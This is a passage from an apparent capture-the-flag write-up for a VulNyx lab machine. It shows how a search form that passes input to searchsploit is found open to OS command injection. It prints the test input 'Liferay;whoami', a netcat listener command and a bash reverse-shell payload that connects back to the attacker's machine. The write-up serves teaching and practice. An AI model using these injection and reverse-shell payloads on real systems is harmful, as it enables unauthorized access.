 The output is a list of exploits for the product *Liferay*, but it seems to be a functionality under development because the result is not well formatted. Also considering that the word *searchsploit* appears in the output, it seems quite likely that the site is running the searchsploit console tool in the backend.

If this is happening and the backend doesn't sanitize the input data, there could be a [command injection](https://portswigger.net/web-security/os-command-injection). During command injection exploitation it is very common to attempt to concatenate commands with the character ;. In this case, the following input

{% include codeHeader.html %}
```html
Liferay;whoami
```

yields the following result

![](/assets/images/2024-03-31-vulnyx-hackingstation/whoami-search.png)

The result contains at the end the word *hacker*, which must be the user with which is running the application, so it is confirmed that **the web is vulnerable to command injection**.

<div id='section-id-2-2'/>
## 2.2. Getting a shell as hacker

Now is the time to get a shell. First we set up a listener on the attacking machine on port 8000 using the command

{% include codeHeader.html %}
```console
nc -nlvp 8000
```

and then send the following payload

{% include codeHeader.html %}
```html
Liferay;bash -c 'bash -i >& /dev/tcp/10.0.2.15/8000 0>&1'
```
